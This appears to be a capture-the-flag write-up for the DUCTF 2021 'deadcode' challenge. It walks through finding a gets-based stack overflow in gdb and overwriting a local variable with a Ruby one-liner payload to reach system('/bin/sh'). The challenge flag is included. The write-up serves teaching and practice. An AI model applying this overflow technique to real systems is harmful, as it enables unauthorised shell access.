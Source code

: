 ## Intro
**deadcode** was a pwn challenge at DUCTF 2021.  

You were given a binary to exploit.

## Investigation
`checksec` showed that besides NX no other stack mitigations are present. Following the `ltrace` I learned the relatively simple flow of the program and found a
potential buffer overflow vulnerability because the insecure `gets` functions is used to capture user input. I loaded the program into `gdb` and disassembled
the `main` function, which is the only one as `info functions` showed.

```
...
0x00000000004011c7 <+50>:   lea    rax,[rbp-0x20]
0x00000000004011cb <+54>:   mov    rdi,rax
0x00000000004011ce <+57>:   mov    eax,0x0
0x00000000004011d3 <+62>:   call   0x401060 <gets@plt>
0x00000000004011d8 <+67>:   mov    eax,0xdeadc0de
0x00000000004011dd <+72>:   cmp    QWORD PTR [rbp-0x8],rax
0x00000000004011e1 <+76>:   jne    0x401200 <main+107>
...
0x00000000004011ef <+90>:   lea    rdi,[rip+0xed5]        # 0x4020cb  "/bin/sh"
0x00000000004011f6 <+97>:   mov    eax,0x0
0x00000000004011fb <+102>:  call   0x401050 <system@plt>
...
```
We can see here that whatever resides at `rbp-0x8` is compared to `0xdeadc0de` and if equals, `system("/bin/sh")` is executed. So the goal is to overflow
the buffer at `rbp-0x20` and write `0xdeadc0de` to `rbp-0x8` - which initially is set to `0` - to spawn us a shell. Let's set a breakpoint right before the compare and run the program
with `AAAAAAAA` as input.  

```
(gdb) r
...
Breakpoint 1, 0x00000000004011d8 in main ()
(gdb) x/8x $rbp-0x20
0x7fffffffdec0:	0x41414141	0x41414141	0x00401000	0x00000000
0x7fffffffded0:	0xffffdfd0	0x00007fff	0x00000000	0x00000000
(gdb) p $rbp-0x8
$3 = (void *) 0x7fffffffded8
```

So we have to overwrite the contents of address `0x7fffffffded8` (thats's where `rbp-0x8` points to). The `AAAAAAAA`'s we typed in were sent straight to the buffer at
`0x7fffffffdec0` (that's where `rbp-0x20` points to) as we can see by the eight `0x41`'s (ASCII value for 'A'). From here we learn we have to fill the buffer
with 24 bytes and then get to write `0xdeadc0de` to our target address.  

## Solution
Let's use a quick ruby exploit for proof of concept.

```
(gdb) r <<< $(ruby -e 'print "A"*24 + "\xde\xc0\xad\xde"')
...
Breakpoint 1, 0x00000000004011d8 in main ()
(gdb) x/8x $rbp-0x20
0x7fffffffdec0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffded0:	0x41414141	0x41414141	0xdeadc0de	0x00000000
(gdb) x/x $rbp-0x8
0x7fffffffded8:	0xdeadc0de
(gdb) c
Continuing.


Maybe this code isn't so dead...
```

... and we've successfully overflowed the buffer satisfying the compare to get our shell. From here we can just execute `cat flag.txt`
to get the flag.

See [exploit](./exploit.py) for a python implementation of the exploit.  

> DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}

